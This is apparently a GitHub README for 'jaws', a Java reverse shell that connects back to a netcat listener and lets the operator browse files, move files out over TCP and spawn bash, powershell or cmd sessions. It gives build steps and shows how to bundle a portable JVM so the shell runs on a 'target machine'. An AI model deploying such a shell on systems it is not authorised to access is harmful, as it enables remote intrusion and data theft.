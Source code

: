 # jaws
jaws is a java based reverse shell. It can run on whatever OS that java will run on. It connects to a netcat listener over a TCP port. The commands are designed to be modular which allows easy feature additions.

# Current Commands
Supports basic file system commands (ls, cat, mkdir, cd, find, zip/unzip etc.)
Upload/download files with TCP port (jaws->netcat and netcat->jaws)
Start and control multiple types of command line interfaces (bash, sh, powershell, cmd)
Run external programs with arguments

# Compilation Steps
The cc.sh script was made to quickly compile all of the java files. It derives a list of java files from a sources.txt file. This file is created with the following linux command from the src directory

`find . -name '*.java' > sources.txt`

If the letter c is included as an argument the java files will be compiled without packaging into a jar file. All compiled class files will be added to a bin directory.

`./cc.sh c`

Without the c argument, the java files will be compiled and packaged into a jaws.jar file. A manifest.mf file will be used to point to the main class within the jar file.

`./cc.sh`

Refer to the cc.sh script for the specific compilation commands.

# Custom JVM
If the Java Virtual Machine is not installed on the target machine, a portable JVM can be put together. A smaller JVM can be put together with jdeps and jlink. A full JVM is not necessary for the jaws shell. To get a list of required dependency modules use the jdeps command on the jaws.jar file. The command I use is shown below:

`jdeps --print-module-deps bin/jaws.jar`

Currently only two dependencies are required:

java.base,java.desktop

With that list of dependencies, a smaller portable JVM can be packaged with jlink. I use the following command.

`jlink --module-path ~/src/jdk-21/jmods --add-modules java.base,java.desktop --output ../runtime --no-header-files --no-man-pages --compress zip-9 --strip-debug`

The package can be cross compiled for whatever operating system using the appropriate JDK. In the above example I use the portable JDK-21 for windows. You can download the compressed JDK from oracle for Linux, macOS, and Windows.

[Oracle JDK Download](https://www.oracle.com/java/technologies/downloads/#java21)

After downloading the JDK, it needs to be unzipped and the jmods directory needs to be included in the above command. The JVM will be packaged into the directory provided with the --output option. The jar file can then be added into the runtime library and ran with the java binary within the bin folder.

`./runtime/bin/java.exe -jar jaws.jar 192.168.0.1 54321`
